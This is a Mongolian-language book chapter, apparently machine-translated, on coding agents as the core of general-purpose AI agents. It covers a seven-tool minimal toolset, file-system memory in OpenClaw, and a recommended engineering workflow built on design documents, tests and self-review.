# Agent код бичих болон код үүсгэх

Өмнөх бүлгүүдэд Context инженерчлэл (Бүлэг 2 ба 3) болон багаж хэрэгслийн дизайныг (Бүлэг 4) гүнзгийрүүлсэн. Энэ бүлэгт эдгээр барилгын блокуудыг нэгтгэн гол асуултад хариулах болно: **Дурын даалгавруудыг гүйцэтгэх чадвартай ерөнхий зориулалттай Agent-ийн архитектур ямар харагддаг вэ?**

Хариулт нь: **Нээлттэй даалгавруудыг чиглүүлдэг ерөнхий зориулалттай Agent** нь үндсэндээ **Кодлох Agent** (кодыг бие даан бичиж, өөрчилж, гүйцэтгэх боломжтой Agent) болон **файл систем**-тэй бөгөөд энэ нь программист компьютер дээрх хавтастай төслүүдийг удирддагтай адил Agent нь код, өгөгдөл, санах ой болон завсрын үр дүнг хадгалдаг ажлын талбар юм. Manus-аас OpenClaw хүртэл амжилттай нээлттэй ерөнхий зориулалттай Agents нь бүгд энэ парадигмыг дагадаг.

Код үүсгэх нь яагаад ийм жинг үүрч чадах вэ? Учир нь энэ нь зүгээр нэг хэрэгсэл биш, харин **мета чадамж** буюу ажиллах үед шинэ хэрэгсэл, чадавхийг динамикаар бий болгох чадвар юм. Энэ бүлгийн сүүлийн хагаст энэхүү ойлголтыг бүрэн хэмжээгээр нь, мөн түүнийг хэрэгжүүлэх зургаан чиглэлийг боловсруулсан болно.

Код нь Agent-д хоёр түвшинд үйлчилдэг. **Сэтгэх** хэрэгсэл болгон код нь хатуу чанд байдлыг шаарддаг - "18-аас дээш настай бөгөөд хэн болохыг баталгаажуулсан" нь байгалийн хэлээр олон удаа уншихыг зөвшөөрдөг боловч код хэлбэрээр бичигдсэн тохиолдолд яг нэгийг нь зөвшөөрдөг. **Илэрхийллийн** хэрэгсэл болгон ажиллаж буй код нь логик тогтвортой байдлын өөрийн нотолгоо бөгөөд түүний гүйцэтгэлийн үр дүн нь зөв байдлын объектив стандартыг өгдөг.

Энэ бүлэг нь код бичих Agent болон ерөнхий зориулалттай Agent архитектурын (OpenClaw) үндсэн чадваруудаас эхэлж, дараа нь математикийн үндэслэл, контент бүтээхээс эхлээд системийн түвшний мета-чадвар хүртэлх янз бүрийн нөхцөлд код үүсгэхийг хэрхэн ашиглахыг харуулна.

## Agent кодчилол

### Код бичих нь Agent-ийн үндсэн чадвар юм

**Код үүсгэх нь цөөн хэдэн тусгай Agents-ийн цорын ганц салбар биш, харин ерөнхий зориулалттай Agent бүрийн эзэмших ёстой үндсэн чадвар юм.** Өнөөгийн SOTA Model-уудын хувьд Agent-д үндсэн код бичих чадварыг өгөх нь нарийн төвөгтэй архитектур шаарддаггүй.

Ердийн даалгаврыг авч үзье: "Репозиторт үлдсэн бүх TODO сэтгэгдлүүдийг цэгцэлж, тэдгээрийг эрэмбэлэх байдлаар нь ангилж, асуудал үүсгэнэ." Үүнийг хийхийн тулд сангийн бүтцийг үзэх (ls/glob), код унших (унших), файлуудыг өөрчлөх (засварлах/бичих), командуудыг ажиллуулах (bash), хэв маягийг хайх (grep/search) шаардлагатай. Эдгээр таван ангиллын үйлдлүүд нь кодчилолын Agent-ийн бараг бүх үндсэн үйлдлийг хамардаг бөгөөд доорх долоон хэрэгсэл эдгээрээс гаралтай. Хатуухан хэлэхэд таван ангилал нь зургаан хэрэгсэлд байгалийн жамаар холбогддог; долоо дахь нь болох Код тайлбарлагч нь "код гүйцэтгэх / тооцоолох" үйлдлүүдийг хамардаг бөгөөд зарим хэрэгжилтэд Bash руу зүгээр л нэгтгэгддэг - долоон хэрэгсэл нь хэвийн болгосон лавлах багц бөгөөд таван ангилалд нэг бүрчлэн оруулсан хатуу зураглал биш юм.

Үндсэн кодчилолын Agent нь зөвхөн дараах долоон үндсэн хэрэгслээр тоноглогдсон байх шаардлагатай:

1. **Код тайлбарлагч**: Python код нь хостод нөлөөлөх гүйцэтгэлийн алдаагүйгээр аюулгүй ажиллах боломжтой тусгаарлагдсан sandbox (хост системээс тусгаарлагдсан аюулгүй ажиллах хугацаа)-ийг хангадаг.
2. **Bash Shell**: Туршилтын тохиолдлуудыг ажиллуулах эсвэл тусгайлан форматлагдсан файлуудыг боловсруулах гэх мэт терминал дахь командуудыг гүйцэтгэдэг.
3. **Tool файлыг унших**: Код, тохиргоо, баримт бичиг, лог гэх мэтийг уншина.
4. **Tool файл бичих**: Шинэ файл үүсгэх эсвэл байгаа файлуудыг бүрэн дарж бичнэ
5. **Tool файлыг засах**: Кодын засвар үйлчилгээ болон давталтын гол үйлдлүүд болох одоо байгаа файлуудад хэсэгчилсэн өөрчлөлтүүдийг хийдэг.
6. **Tool файлын нэрийг хайх (Бүхэл бүтэн)**: Файлын систем дэх зорилтот файлуудыг загварын тохируулгын тусламжтайгаар хурдан олдог, жишээлбэл, төсөл дэх бүх `**/*.py` файлыг олохын тулд Python файлыг ашиглах.
7. **Файлын контентыг хайх Tool (Grep)**: Файлын контент доторх тодорхой текстийн хэв маягийг хайдаг, жишээлбэл, тодорхой функцийг дууддаг кодын бүх мөрийг олох

Эдгээр долоон хэрэгсэл нь бараг бүх Agent системд хямд өртгөөр нэгтгэж болох бүрэн хэмжээний боловч хамгийн бага хэрэгслийн багц юм.

Тэмдэглэл нь энэхүү хэрэгслийн багц нь Кодлох Agent-д хамаарах үндсэн тохиргоо бөгөөд дуудлагын чиглэл болон нөлөөллийн шинж чанараар (ойлголт / гүйцэтгэл / хамтын ажиллагаа / үйл явдлаас үүдэлтэй / хэрэглэгчийн харилцаа холбоо) хуваагдсан Бүлэг 4-ийн таван ерөнхий хэрэгслийн ангиллаас ялгаатай гэж үздэг. Эдгээр долоон үндсэн хэрэгсэл нь голчлон ойлголт болон гүйцэтгэлийг хамардаг. Хамтын ажиллагаа, үйл явдлыг зохицуулах, хэрэглэгчийн харилцаа холбоо нь нэмэлт хэрэгслүүд шаарддаг боловч эдгээр нь Кодлох Agent-ийн үндсэн хэрэгслийн багцаас гадуур байдаг.

Долоон хэрэгсэл хэрхэн хамтран ажилладагийг харахын тулд хамгийн энгийн даалгавруудыг гүйцэтгээрэй. Хэрэглэгч "Төслийн бүх TODO сэтгэгдлүүдийн жагсаалтыг эмхэтгэхэд надад туслаач" гэж хэлсэн гэж бодъё.

```text
Agent (сэтгэж байна): TODO агуулсан бүх кодын мөрийг олох хэрэгтэй.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (сэтгэж байна): 3 TODO оллоо. Жагсаалт болгон нэгтгээд файлд бичье.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Дууслаа. 3 TODO олсон бөгөөд жагсаалтыг TODO_LIST.md файлд хадгаллаа.
```

Бүх үйл явцад зөвхөн хоёр хэрэгслийг ашигласан: Grep (агуулгыг хайх) болон Write (файл бичих). Хэрэв даалгавар нь илүү төвөгтэй байсан бол - жишээ нь "модуль тус бүрийн TODO-ийн тоог тоолж, баганан диаграм зурах" гэх мэт - Agent нь статистик болон графикийн хувьд Python кодыг гүйцэтгэхийн тулд Код тайлбарлагчийг ашиглах байсан. Долоон хэрэгсэл нь тус тусдаа энгийн; хослуулан тэд гайхалтай олон төрлийн даалгавруудыг хамардаг.

Уншигч асууж магадгүй: яагаад зургаан хэрэгсэл биш долоон хэрэгсэл гэж? Үнэндээ ганц Bash хэрэгсэл нь ихэнх үйлдлүүдийг хамарч чадна. OpenAI Codex-ийн хэрэгслийн багц нь маш нимгэн: бүрхүүл нь түүний цорын ганц ерөнхий зориулалттай гүйцэтгэх оролтын цэг бөгөөд энэ нь сангуудыг үзэж, файлуудыг олж, тэдгээрийг командуудаар уншдаг; файлын өөрчлөлтүүд нь синтакс хязгаарлагдмал `apply_patch` хэрэгсэл рүү шилждэг бөгөөд энэ нь засварыг чөлөөт хэлбэрийн текст командын оронд бүтэцлэгдсэн нөхөөс хэлбэрээр илэрхийлдэг тул буруу файлыг өөрчлөх магадлалыг бууруулдаг. Гэсэн хэдий ч бусад Agents нь тусгай файл унших болон файл бичих хэрэгслүүдийг хадгалдаг. Энэ номонд байгаа долоон хэрэгслийг тусад нь задалсан тул код бичих Agent-д шаардлагатай үндсэн чадваруудыг ойлгоход хялбар болгодог.

Яагаад ерөнхий зориулалттай Agent бүр код бичих чадвартай байх ёстой вэ? Учир нь код үүсгэх нь зөвхөн програм бичих тухай биш - энэ нь асуудлыг шийдэх ерөнхий зориулалттай арга юм. Математикийн бодлоготой тулгарсан Agent нь код бичиж, яг тодорхой хариулт авахын тулд бодогчдод өгч чаддаг; тодорхойлох бизнесийн дүрэмтэй тулгарсан код нь байгалийн хэлний тайлбараас хамаагүй илүү нарийвчлалтай байдаг; хэрэгсэл байхгүй бол шууд бичиж чаддаг; өгөгдлийн формат өөрчлөгдөхөд шинэ задлан шинжлэх логик үүсгэж чаддаг. Дараагийн хэсгүүдэд эдгээр хувилбаруудыг ээлжлэн авч үзэх болно. Үндсэн код бичих чадвартай Agent - дээр дурдсан долоон энгийн хэрэгслээс өөр юу ч байхгүй байсан ч гэсэн - шинэ хэрэгцээ гарах бүрт чадвараа өргөжүүлж чаддаг.

### Кейс судалгаа: Манусаас OpenClaw хүртэл — Ерөнхий зориулалттай Agents кодчилолын цөм

Manus болон OpenClaw зэрэг ерөнхий зориулалттай Agent бүтээгдэхүүнүүд нь Гүнзгий судалгаа, Компьютерийн хэрэглээ, Код бичих гэсэн гурван үндсэн чадварыг нэг системд нэгтгэдэг. Тэгвэл энэ бүлгийн эхэнд яагаад код бичих Agent-г нөгөө хоёрын аль нэгийг нь биш харин цөм гэж нэрлэсэн бэ?

Учир нь бараг бүх үр ашигтай контент үүсгэх нь эцсийн дүндээ код дээр тулгуурладаг. PowerPoint танилцуулга болон Word баримт бичиг нь үндсэндээ OOXML форматаар кодлогдсон байдаг (Office Open XML, Microsoft-ын оффисын баримт бичгийн нээлттэй стандарт). PDF тайланг Markdown, HTML, эсвэл LaTeX-ээр дамжуулан үүсгэж болно; Python скриптүүд нь өгөгдлийн шинжилгээ, дүрслэлийг гүйцэтгэж чаддаг; GUI ажлаас амжилттай хөтчийн үйлдлийн дарааллыг ч дахин ашиглах боломжтой код болгон тэмдэглэж болно (Бүлэг 9-ийг үзнэ үү). Гүнзгий судалгааны хайлт болон мэдээллийн синтезийг кодоор удирддаг вэб хүсэлт болон задлан шинжлэх замаар хэрэгжүүлж болно. Компьютер ашиглах нь илүү олон талын ач холбогдолтой боловч шууд код эсвэл API дуудлага нь ерөнхийдөө ижил төстэй үйлдлүүдийн хувьд хямд, хурдан бөгөөд илүү найдвартай байдаг. Код үүсгэх нь хамгийн үр ашигтай, хамгийн бага өртөгтэй, хамгийн дахин ашиглах боломжтой чадварын үндэс суурь юм.



Энэ архитектурыг тодорхой гүйцэтгэлийн урсгалаар ойлгоорой. Хэрэглэгч: "Өнгөрсөн улирлын борлуулалтын өгөгдлийг шинжилж, хураангуй тайлан гаргахад надад туслаач" гэж асуусан гэж бодъё.

1. **Санах ой-г унших**: Agent нь `MEMORY.md`-г уншиж, хэрэглэгч PDF форматын тайланг илүүд үздэг бөгөөд өгөгдлийн эх сурвалж нь Google Sheets болохыг олж мэднэ.
2. **Tools руу залгах**: Вэб хайлтын модулиар дамжуулан Google Sheets API-ийн хэрэглээний зааврыг авах, код гүйцэтгэх замаар өгөгдлийг татаж авах
3. **Код бичих**: Python дээр өгөгдлийн шинжилгээний скрипт үүсгэдэг (pandas aggregation, matplotlib visualization)
4. **Үлгэр жишээ үүсгэх**: Шинжилгээний үр дүнг `report.pdf` руу, графикуудыг `charts/` лавлах руу бичнэ
5. **Санах ой-г шинэчлэх**: `MEMORY.md` дээр "Хэрэглэгч-ийн борлуулалтын мэдээлэл Google Sheets, ID: xxx" гэсэн тэмдэглэгээ хийгдсэн тул дараагийн удаа асуух шаардлагагүй.

Процессийн туршид файлын систем нь мэдээллийн урсгалын төв болдог - санах ойг файлаас уншиж, эд өлгийн зүйлсийг файл руу бичиж, туршлагыг файл болгон хадгалдаг.

**Систем файл нь Agent-ийн төв төв юм.** OpenClaw-ийн дизайны хувьд файлын систем нь зөвхөн өгөгдөл хадгалахаас хамаагүй илүү зүйл бөгөөд энэ нь Agent-ийн санах ой, мэдлэг, чадварын төв төв юм. Agent-ийн урт хугацааны санах ой нь `MEMORY.md` (өндөр түвшний баримтууд болон хэрэглэгчийн тохиргоо) болон Markdown бүртгэлүүдэд огноогоор нь архивлагдсан байдаг. Векторын мэдээллийн сангийн оронд Markdown-г сонгох нь утгагүй мэт санагдаж болох ч энэ нь маш үр дүнтэй: хэрэглэгчид Agent-ийн санах ойг уншиж, өөрчлөхийн тулд файлуудыг шууд нээж болно (хэрэв Agent ямар нэг зүйлийг буруу санавал тэр мөрийг устгана уу), Markdown нь семантик сэргээлтэд цаг хугацааны төөрөгдлөөс зайлсхийхийн тулд цаг хугацааны дарааллыг хадгалдаг бөгөөд Git-ээр дамжуулан хувилбарын хяналт болон буцаалтыг дэмждэг.

Илүү чухал нь, Agent нь файл бичиж чаддаг тул өөрийн гадаад эд өлгийн зүйлсийг өөрчлөх техникийн хэрэгсэлтэй байдаг. Agent нь анх удаа даалгавар гүйцэтгэж, өмнө нь мэдээгүй байсан гол мэдээллээ олж мэдсэн тохиолдолд - жишээлбэл, тодорхой банк руу залгахдаа банк нь салбарын хаягийг үнэмлэх баталгаажуулах шаардлагатай байгааг мэдэж авсан тохиолдолд - эхлээд нээлтийг бүртгэлд бичиж болно. Ийм бүртгэл хэзээ найдвартай мэдлэг, заавар эсвэл хөтөлбөр болоход хангалттай болохыг тодорхойлоход нэмэлт чиглэл, үр дүнгийн баталгаажуулалт шаардлагатай хэвээр байна. Энэ бол Бүлэг 9-д хэлэлцсэн тасралтгүй хувьслын асуудал юм.

**Хэрэглээний хил хязгаар: Agents нь кодчилолыг гол архитектур болгон ашигладаг.** "Зөвлөлтийн Agent нь ерөнхий зориулалттай Agent-ийн гол цөм юм" гэсэн дүгнэлт нь голчлон **ерөнхий зориулалттай Agents нь нээлттэй даалгавруудыг чиглүүлэхэд** хамаарна - гүнзгий судалгаа, контент үүсгэх, өгөгдөл боловсруулах зэрэг даалгаврын хил хязгаар тодорхойгүй, олдворын хэлбэрүүд олон янз байдаг. Эдгээр тохиолдолд шаардлагатай бүх хэрэгслийг урьдчилан тоочих боломжгүй; код үүсгэх нь мета чадамжийн хувьд динамикаар өргөжих чадавхийн хил хязгаарыг хамгийн хэмнэлттэй болгож, архитектурын гол цөм болгодог. Үүний эсрэгээр босоо домэйн хэрэглэгчийн үйлчилгээний Agents нь харьцангуй хаалттай даалгаврын орон зайд ажилладаг бөгөөд гол архитектурууд нь тогтмол бизнесийн процессууд, домэйн хэрэгслүүд, харилцан ярианы стратегиудын эргэн тойронд баригдсан байдаг; тэнд код нь архитектурын төв биш харин хэрэгслийн хайрцагт байдаг хэрэгсэл юм. Гэсэн хэдий ч сүүлийнх нь ч гэсэн кодчилол нь чухал суурь чадвар юм: нарийн тооцоолол, өгөгдөл боловсруулах, дүрмийг баталгаажуулах нь бүгд үүнээс хамаарна.

### Agent кодчилолын ерөнхий ажлын урсгал



**Төслийн баримт бичиг**

Код бичих Agent-ийн ажил нь төслийн талаар системтэй ойлголтоос эхэлдэг. Agent нь кодын репозитортой анх тааралдахад түүний эхний ажил бол кодыг өөрчлөх биш, харин төслийн бүхэл бүтэн танин мэдэхүйн хүрээг бий болгох явдал юм - яг л шинэ инженер эхний өдрөөсөө кодыг түлхдэггүй, харин газрын хэв маягийг сурч эхэлдэгтэй адил. Agent нь төсөлд баримт бичиг байгаа эсэхийг шалгахаас эхэлдэг - README, архитектурын дизайны баримт бичиг, хөгжүүлэгчийн гарын авлага.

Хэрэв гол баримт бичиг байхгүй бол Agent нь сохроор ажиллаж эхлэх ёсгүй. Энэ нь кодын санг системтэйгээр шалгаж, үндсэн модулиуд, цөм хийсвэрлэл, бүрэлдэхүүн хэсгүүдийн хамаарлыг тодорхойлж, архитектурын тойм, лавлах гарын авлага, туршилтыг ажиллуулах зааврыг боловсруулах ёстой. Эдгээр баримт бичиг нь Agent-ийн дараагийн ажлын зураг төсөл болж, бусад хөгжүүлэгчдэд нэвтрэх цэг болж өгдөг. Энэ нь гол зарчмыг агуулдаг: төслийн мэдлэгийг тодорхой болгох нь үр дүнтэй хамтын ажиллагааны урьдчилсан нөхцөл юм.

Төслийн баримт бичиг одоо Agent-д зориулсан тусгай хэлбэртэй болсон: **Төслийн зааврын файлууд**. CLAUDE.md, AGENTS.md, .cursorrules зэрэг файл салбарын бодит стандарт болжээ—session бүрийн эхэнд Context-д автоматаар оруулж, төслийн түвшний System Prompt шиг ажиллуулдаг. Хүнд зориулсан README-ээс ялгаатай нь эдгээр файл Agent-ийн ажиллах дүрмийг агуулна: build/test command (“`npm test`-ийн оронд `pnpm test` ашигла”), code style (“`any` төрлөөс зайлсхий”), хориглосон бүс (“`migrations/` directory-г бүү өөрчил”). Энэ нь OpenClaw-ийн `SOUL.md` (Agent-ийн identity, behavior rule) ба `MEMORY.md` (session хоорондын туршлагыг хуримтлуулах)-ийн ижил санааг өөр түвшинд хэрэглэсэн хэрэг. SOUL.md “Agent хэн бэ”-г тодорхойлдог бол төслийн заавар “энэ төсөлд хэрхэн ажиллах вэ”-г тодорхойлдог. Бүлэг 2-ын Context engineering өнцгөөс зааврын файл нь хамгийн хэмнэлттэй тогтвортой угтвар—агуулга нь task-тай хамт өөрчлөгдөхгүй учраас KV Cache-д ээлтэй, мөн “мэдлэг codebase дотор өөрт нь байх ёстой” зарчмын хамгийн шууд хэрэгжүүлэлт юм.

Энэ бол Бүлэг 2-ын "алсын зайнаас ажиллахад ээлтэй баг нь ихэвчлэн AI Agents-д ч бас ээлтэй байдаг" гэсэн дүгнэлт нь кодын репозиторын түвшинд яг таарч байна: баримт бичигт бичигдсэн шийдвэрүүд, асуудал болон PR тайлбарт бичигдсэн нөхцөл байдал, хөгжүүлэгчийн гарын авлагад шингэсэн дотоод туршлага, ингэснээр Agent тэдгээрийг огт уншиж чаддаг. Үүнээс баг хэр "AI-д бэлэн" байгааг харуулсан энгийн хэмжүүр гарч ирнэ: **зөвхөн репозитор болон баримт бичигт найдаж, алсын зайнаас шинээр орж ирсэн хүн бие даан ажиллаж эхлэх боломжтой юу?**

**Даалгаврын ойлголт болон шаардлагын тодруулга.**

Тодорхой хил хязгаартай, хязгаарлагдмал нөлөөтэй энгийн шаардлагуудын хувьд - тухайлбал мэдэгдэж буй алдааг засах эсвэл функцийн параметрүүдийг тохируулах - Agent нь хэрэгжүүлэх үе шат руу шууд шилжиж болно. Гэсэн хэдий ч програм хангамж хөгжүүлэх ихэнх ажлууд тийм ч энгийн биш юм.

Нарийн төвөгтэй шаардлагын хувьд Agent нь илүү болгоомжтой, арга зүйн байх ёстой. Нарийн төвөгтэй байдал нь олон хэмжээсээс үүдэлтэй байж болно: шаардлагын өөрийнх нь тодорхойгүй байдал (хэрэглэгч юу хүсч байгаагаа мэддэг боловч үүнийгээ яг тодорхой илэрхийлж чадахгүй), хэрэгжүүлэх замын олон янз байдал (өөрийн гэсэн буулттай олон техникийн шийдэл), эсвэл нөлөөллийн өргөн цар хүрээ (олон модульд өөрчлөлт оруулах шаардлагатай, одоо байгаа функцийг эвдэж болзошгүй). Agent нь хайгуулын судалгаагаар хил хязгаарыг тодруулж, шаардлагатай үед хэрэглэгчтэй урьдчилан харилцан яриа өрнүүлэх ёстой. Жишээлбэл, хэрэглэгч "системийн гүйцэтгэлийг оновчтой болгох" хүсэлт гаргах үед Agent нь эхлээд тодорхой зорилго (хариу өгөх хугацааг багасгах, санах ойн хэрэглээг бууруулах эсвэл дамжуулах чадварыг нэмэгдүүлэх), аль буултууд хүлээн зөвшөөрөгдөх (жишээлбэл, кодын нарийн төвөгтэй байдлыг нэмэгдүүлэх боломжтой эсэх), одоогийн саад бэрхшээл хаана байгааг тодорхойлох шаардлагатай. Шаардлага нь тодорхойгүй хэвээр байх үед код бичиж эхлэх нь ихэвчлэн мэдэгдэхүйц дахин боловсруулалтад хүргэдэг.

**Дизайн баримт бичиг бичих.**

Дизайны баримт бичиг нь хийсвэр шаардлагыг тодорхой хэрэгжүүлэх төлөвлөгөө болгон хөрвүүлдэг гүүр юм. Энэ нь дөрвөн үндсэн асуултанд хариулах ёстой: ямар модулиудыг өөрчлөх ёстой, яагаад, ямар аргыг сонгох ёстой, ямар буулт хийх шаардлагатай, ямар шинэ хамаарал шаардлагатай, өөрчлөлтүүд нь системд ямар нөлөө үзүүлэхийг хүлээж байна. Дизайны баримт бичиг бичих нь өөрөө гүнзгий сэтгэлгээ юм - энэ нь Agent-ийг код бичихэд ихээхэн хөрөнгө оруулахаасаа өмнө шийдлийн хэрэгжих боломжийг концепцийн хувьд баталгаажуулахыг шаарддаг. Хамгийн чухал нь дизайны баримт бичиг нь хүмүүст үр дүнтэй оролцооны цэг болдог - товч дизайны баримт бичгийг хянах нь хэдэн зуун мөр кодыг хянахаас хамаагүй хялбар юм. Дизайны баримт бичгийг бөглөсний дараа Agent нь хэрэглэгчийн хяналтад оруулж, үргэлжлүүлэхээсээ өмнө батлуулахыг хүлээх ёстой.

**Код хэрэгжүүлэх болон турших.**

Дизайны зөвшөөрөл авсны дараа Agent нь төслийн хэрэгжүүлэх кодын конвенцийг дагаж мөрдөж, одоо байгаа хийсвэрлэл болон хэрэгслүүдийг дахин ашиглаж, кодын баазын эрүүл мэндийг хадгалахын тулд шаардлагатай үед дунд зэргийн рефакторинг хийдэг.

Хэрэгжүүлсний дараа Agent нь туршилтаар удирддаг чанарын баталгаажуулалтын үе шатанд шууд ордог бөгөөд шинэ эсвэл өөрчлөгдсөн функцын туршилтын тохиолдлуудыг бичиж, хэвийн зам, хил хязгаарын нөхцөл, алдааны хувилбаруудыг хамардаг. Тестүүдийг бичсэний дараа Agent нь туршилтын багцыг ажиллуулдаг. Хэрэв туршилт амжилтгүй болвол Agent нь хэрэглэгчдэд алдааны талаар мэдээлэхээс гадна шалтгааныг нь шинжилж, асуудлыг олж, бүх туршилтууд тэнцэх хүртэл кодыг өөрчлөх ёстой. Энэхүү "туршилт-засах" давталт хэд хэдэн давталт шаардаж болох бөгөөд энэ нь өөрөө засах чадвар нь Кодлох Agent-г код үүсгэгчээс найдвартай инженерийн туслах болгон дээшлүүлдэг. Үүний эсрэгээр, Кодлох Agent-ийн хамгийн түгээмэл арга бол энэ үе шатыг бүрэн алгасах явдал юм - код бичиж, туршилтуудыг хэзээ ч ажиллуулахгүйгээр "даалгавар дууссан" гэж мэдээлэх. Дуусах шалгуур болгон "код бичигдсэн" биш харин "туршилтууд тэнцсэн" гэж тодорхойлох нь код бичихэд хэрэглэгддэг баталгаажуулалтыг хэзээ зогсоох нь аюулгүй болохыг шийдэх боломжийг олгодог Loop Engineering-ийн зарчим юм.

Бүх туршилтууд амжилттай болсон ч Agent-ийн ажил дуусаагүй байна. Дараагийн үе шат бол кодын хяналт юм: Agent нь өөрийн үүсгэсэн кодыг шүүмжлэлтэйгээр шалгадаг. Унших боломжтой бөгөөд хангалттай тайлбартай юу? Гүйцэтгэлийн асуудал эсвэл аюулгүй байдлын эмзэг байдал байгаа юу? Энэ нь төслийн кодын хэв маяг болон шилдэг туршлагыг дагаж мөрддөг үү? Энэхүү өөрийгөө хянах ажлыг кодыг унших, хөвөнгийн хэрэгслийг ажиллуулах эсвэл тусгай кодын хяналтын дэд Agent-ыг дуудах замаар хийж болно. Хэрэв хяналтаар асуудал илэрвэл Agent нь алдаатай кодыг хэрэглэгчдэд хүргэхийн оронд өөрчлөлтийн үе шатанд буцаж очоод тэдгээрийг засах ёстой.

**Баримт бичгийн синхрончлол ба хүргэлт.**

Хэрэв кодын өөрчлөлт нь архитектурын өөрчлөлттэй холбоотой бол - тухайлбал шинэ модуль нэвтрүүлэх, модулиудын хоорондын хамаарлыг өөрчлөх, эсвэл цөм хийсвэрлэлийн семантикийг өөрчлөх гэх мэт - Agent нь архитектурын баримт бичгийг зохих ёсоор шинэчлэх шаардлагатай. Хуучирсан баримт бичиг нь ирээдүйн хөгжүүлэгчдийг төөрөгдүүлдэг тул баримт бичиггүй байснаас дор юм. Agent нь чухал өөрчлөлт бүрийн дараа баримт бичгийг автоматаар шинэчилснээр төслийн мэдлэгийн сангийн бүрэн бүтэн байдал, цаг үеэ олсон байдлыг хадгалахад тусалдаг.

Энэхүү ажлын урсгал нь програм хангамжийн инженерчлэлийн үндсэн зарчмуудыг агуулдаг: төлөвлөлт нь үйлдлээс өмнө хийгддэг, баталгаажуулалт үргэлжилдэг бөгөөд баримтжуулалт нь кодтой хамт хөгждөг.

Дээр дурдсан үйл явц нь **санал болгож буй инженерчлэлийн ажлын урсгал** гэдгийг Тэмдэглэл гэж үздэг. Бодит ертөнцийн кодчилол Agents (жишээ нь Claude код болон Codex) нь шаардлагатай бол үүнийг тайрдаг: энгийн алдаа засах даалгавар нь дизайны баримт бичиг үүсгэхийг алгасдаг бол зөвхөн нарийн төвөгтэй, өргөн хүрээтэй даалгаврууд нь бүх үе шатыг бүрэн гүйцэд гүйцэтгэдэг.

Өөр өөр Model-ууд энэ ажлын урсгалыг өөр өөрөөр засдаг. Зарим кодчилолын Model-ууд нь анхны засварлалтаас өмнө репозиторын бүтэц, хэрэгжилт, дуудагч болон тестүүдийг өргөнөөр уншдаг. Бусад нь зөвхөн хамгийн чухал байх магадлалтай цөөн хэдэн файлыг шалгаж, эрт засвар хийж, хөрвүүлэгч болон тестийн санал хүсэлтийг судалгааны нэг хэсэг гэж үздэг. Мэдээлэл цуглуулахаа хэзээ зогсоож, үйл ажиллагаагаа эхлүүлэхээ шийдэх энэхүү босго нь модон холболт өөрчлөгдсөний дараа Model-ыг үргэлжлүүлэн дагаж мөрдөж болох бөгөөд Model-ыг ижил модон холболт дотор солиход өөрчлөгдөж болно. Тиймээс энэ нь юуны түрүүнд **суралцсан Model-ын зан төлөв** бөгөөд зөвхөн кодчилолын бүтээгдэхүүний интерфэйсийн хэв маяг биш юм. Prompts, модон холболт дахь хэрэгслүүд болон төсөв нь үүнийг нэмэгдүүлэх эсвэл дарах боломжтой хэвээр байгаа ч түүний эх үүсвэр байх албагүй. Бүлэг 7 нь тогтмол модон холболт дахь энэ ялгааг хэмждэг; Бүлэг 8 нь сургалтын дараах ийм бодлогыг параметрүүдэд хэрхэн бичиж болохыг тайлбарладаг.

### Agents кодчилолд зориулсан практикт бэхэлгээний инженерчлэл

